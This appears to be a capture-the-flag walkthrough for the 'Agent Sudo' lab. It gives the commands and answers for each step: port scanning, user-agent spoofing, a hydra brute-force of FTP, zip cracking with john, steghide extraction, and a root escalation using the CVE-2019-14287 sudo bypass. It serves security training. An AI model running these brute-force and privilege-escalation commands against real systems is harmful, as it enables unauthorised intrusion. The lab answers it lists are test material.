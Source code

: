 # Agent Sudo


- Deploy the machine

	  no answer needed

- How many open ports?

	- `nmap <TARGET_IP>`
	- `3`

- How you redirect yourself to a secret page?

	- `user-agent`

- What is the agent name?

	- Let's try changing the user-agent.
	- `curl -A "A" -L <TARGET_IP>`. Mmmmh...
	- `curl -A "C" -L <TARGET_IP>`. Got it.
	- `chris`

- FTP password

	- `hydra -l chris -P /usr/share/wordlists/rockyou.txt <TARGET_IP> -vV -t 4 ftp`
	- `crystal`

- steg password

	- `ftp <TARGET_IP>`
	- Enter username `chris` and password `crystal`.
	- `mget *`
	- By `ToAgentJ.txt` I can understand there is a pic that isn't a photo actually.
	- In fact, `binwalk -e cutie.png` extracts useful data.
	- `cd _cutie.png.extracted`
	- `zip2john 8702.zip > zip.hash`
	- `john zip.hash` and we get the password
	- `7z e zip.hash`, enter `Y` and the password.
	- `cat ToAgentR.txt`
	- Inserting that weird string into CyberChef (from Base64) we get `Area51`.
	- `Area51`

- Zip file password

	- `alien`

- Who is the other agent (in full name)?

	- `steghide info cute-alien.jpg`, enter `y` and the passphrase (`Area51`).
	- There is a message.txt inside
	- `steghide extract -sf cute-alien.jpg`
	- `james`

- SSH password

	- `hackerrules!`

- What is the user flag?

	- `ssh james@<TARGET_IP>` and then enter the password.
	- `cat user_flag.txt`
	- `b0**975e8******041**********13c7`

- What is the incident of the photo called?

	- Enable ssh on your machine
	- `scp Alien_autospy.jpg YOUR-USER-HERE@YOUR-IP-HERE:Alien_autospy.jpg`
	- Search that photo with Google Reverse Image.
	- `Roswell Alien Autopsy`

- CVE number for the escalation (Format: CVE-xxxx-xxxx)

	- `sudo -l`
	- `CVE-2019-14287` ([exploit-db](https://www.exploit-db.com/))

- What is the root flag?

	- `sudo -u \#$((0xffffffff)) /bin/bash`
	- `id`
	- `cat /root/root.txt`
	- `b53**2f55b57******3341**********`
	- `Deskel`
